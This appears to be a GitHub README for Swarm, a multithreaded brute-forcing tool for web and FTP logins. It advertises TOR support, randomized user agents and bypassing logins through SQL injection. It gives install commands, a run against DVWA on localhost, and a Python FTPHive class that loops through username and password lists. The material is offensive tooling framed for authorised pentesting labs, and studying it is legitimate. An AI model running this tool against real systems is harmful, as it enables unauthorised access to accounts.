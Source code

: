 # DISCLAIMER
**Swarm is for education/research purposes only. The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided.
 The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of ANY files provided with Swarm.
 By using Swarm or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Swarm and ALL files included are for EDUCATION and/or RESEARCH purposes ONLY.
 Swarm is ONLY intended to be used on your own pentesting labs, or with explicit consent from the owner of the property being tested.** 


#About Swarm 
**Swarm is a Bruteforcing pentesting tool for bruteforcing html logins**
##Some Notable Features
* Multi-Threaded
* Randomized user agents
* Supports TOR
* By-pass logins via SQL Injections
* Easy to inherit from to create different types of bruteforcing tools

#Getting Started
To use, first clone the github repo, and then give swarm execute permissions
```shell
git clone https://github.com/szech696/swarm && cd swarm
chmod 755 swarm		
```	
##Installing Dependencies 
```shell
pip install bitarray
pip install requests
pip install -U requests[socks]
pip install pexpect
apt-get install tor
``` 
##Usage

###For all options
```shell
./swarm --help
``` 
###Using on Damn Vulnerable Web App
```shell
./swarm --url='http://localhost/dvwa/login.php' --user-file='usernames.txt' --pass-file='passwords.txt' --verbose --threads=1 
```
##Inheritence Example - FTPHive
```python
from hive import Hive
from ftplib import FTP

# class: FTPHive
# description: Hive used to brute-force FTP Logins
class FTPHive(Hive):
        ftp = None
        def __init__(self):
                Hive.__init__(self)

        # function: attemptLogin        - Overriden
        # param: credential             - The credential to attempt a login with
        # return: Boolean               - True if Success | False if Failure
        # description: This function is responsible for attempting a login with the specified credential
        def attemptLogin(self, credential):
                success = False
                Hive.attemptLogin(self, credential)
                username = credential.username
                password = credential.password
                host = credential.host
                try:
                        self.ftp = FTP(host)
                        result = self.ftp.login(username,password)
                        # If result then this was a successful login
                        if result:
                                success = True
                        self.ftp.close()
                except:
                        pass
                return success

	# function: setup
        # description: Prepares this Hive for its attack, *NOTE* This must be called before start is called
        def setup(self):
		# Must call parent object's setup
                Hive.setup(self)

	# function: post_exploit
	# param: credential 	- Must take a credential object
	# description: Example of a post_exploit handle, you must use set it via: self.setOnSuccessHandle(self.post_exploit)
	def post_exploit(self,credential):
		# -------- Do Something ----------
		# Such as display a custom login message
		# Store credentials in a Database, etc.
		exit()	

threadCount = 4
ftp_bruteforce = FTPHive()
ftp_bruteforce.target = 'ftp_server_address'			# specify the target 
ftp_bruteforce.usernameFile = 'usernames.txt'			# the username file to use
ftp_bruteforce.passwordFile = 'passwords.txt'			# the password file to use
ftp_bruteforce.verbose = True					# verbose output
ftp_bruteforce.setOnSuccessHandle(ftp_bruteforce.postExploit)	# Normally you would just do this in setup, but for demonstration purposes
ftp_bruteforce.setup()						# setup must be called before start, and after username/usernameFile, passwordFile, and target have been set
ftp_bruteforce.start(threadCount)				# starts the bruteforcing task
```

